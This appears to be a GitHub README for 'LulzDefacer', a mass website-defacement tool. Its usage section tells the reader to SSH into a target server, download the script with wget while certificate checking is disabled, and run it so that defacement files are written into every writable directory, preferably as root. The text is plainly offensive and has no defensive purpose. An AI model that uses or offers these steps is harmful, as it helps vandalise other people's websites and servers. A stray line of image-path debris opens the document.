 # LulzDefacer
> A mass defacing script 

LulzDefacer is a mass defacing script that takes remote deface url and then adds a new deface file to all the directories and subdirectories of `present working directory`

**Note :** It will create files only in writable directory. So better run it with `root` user

![image](https://user-images.githubusercontent.com/28386721/39553569-f3d3c93c-4e8b-11e8-83b6-1940fdf04033.png)

# Required
1. SSH to the target server
2. Python 3
3. wget utility to download script

# How to use
1. Login to Sever
```
$ ssh username@server
```
2. Locate the directory
```
$ cd /path/to/directory/to/deface
```
3. Download the script
```
$ wget https://raw.githubusercontent.com/tbhaxor/LulzDefacer/master/defacer.py --no-check-certificate
```
4. Run the script
```
$ python3 defacer.py
```

# Contact
Facebook : https://fb.com/gurkirat.py <br>
Instagram : gutkirat.py <br>
Email : tbhaxor@gmail.com

